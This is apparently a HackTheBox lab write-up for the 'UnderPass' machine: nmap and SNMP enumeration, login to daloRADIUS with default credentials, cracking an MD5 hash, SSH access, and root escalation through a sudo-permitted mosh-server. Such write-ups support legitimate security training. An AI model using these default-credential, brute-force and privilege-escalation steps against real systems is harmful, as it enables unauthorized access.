







Welcome back to HackTheBox, let's start by scanning our target with `nmap`:

```
$ sudo nmap -sV -sC 10.10.11.48
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 10:49 CET
Nmap scan report for 10.10.11.48
Host is up (0.014s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```



On port 80 we find a Apache installation showing us the default page! There seems to be nothing there!

Let's try a `-sU` scan:

```
$ sudo nmap -sU 10.10.11.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:02 CET
Nmap scan report for 10.10.11.48
Host is up (0.019s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 1091.28 seconds
```

We find a SNMP service on port 161. SNMP is a service that typically runs on UDP and enumerating it is a nice practice of my footprinting skills.

## Footprinting SNMP

```
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.10.11.48
Scanning 1 hosts, 3219 communities
10.10.11.48 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
```

As you can see we identified, from the list of top community strings, the present string `public`: `onesixtyone` can be used to brute-force the names of the community strings since they can be named arbitrarily by the administrator.

```
$ snmpwalk -v2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (103701) 0:17:17.01
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (105061) 0:17:30.61
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 03 1A 0A 04 24 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 212
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Who is `steve@underpass.htb`? Note this string:

```
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
```

What is `daloradius`?


## daloRADIUS

Looking up the `daloRADIUS` documentation, it seems to be the case that it's files are cloned to `/daloradius`, and if we check `/daloradius/.gitignore` we find some details:



If we check the [daloradius repository](https://github.com/lirantal/daloradius/tree/master), it points us to `/app/users/login.php` and `app/operators/login.php`:




We can try the default credentials: `administrator:radius` and access the operators login screen:



We can quickly find a MD5 user password hash:



We can crack this hash on CrackStation



```
$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Mar 26 01:19:10 PM UTC 2025

  System load:  0.43              Processes:             236
  Usage of /:   59.8% of 6.56GB   Users logged in:       0
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$
```

And just like that, we have the user flag!

```
svcMosh@underpass:~$ cat user.txt
60349ab8a6c10f63f4ab7d05f*****
```

## root

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo mosh-server new -p 61000


MOSH CONNECT 61000 ptdX1ktIer3aoOjhUK/WUg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2937]
svcMosh@underpass:~$ MOSH_KEY=ptdX1ktIer3aoOjhUK/WUg mosh-client 127.0.0.1 61000
```

And then opens a new window:

```
root@underpass:~# ls
root.txt
root@underpass:~# ^C
root@underpass:~# cat root.txt
d402e0fc9f6fdc976ceb7b8******
```

That was it! Thanks for joining me along the way here on what turned out to be quite simple, but not too obvious!
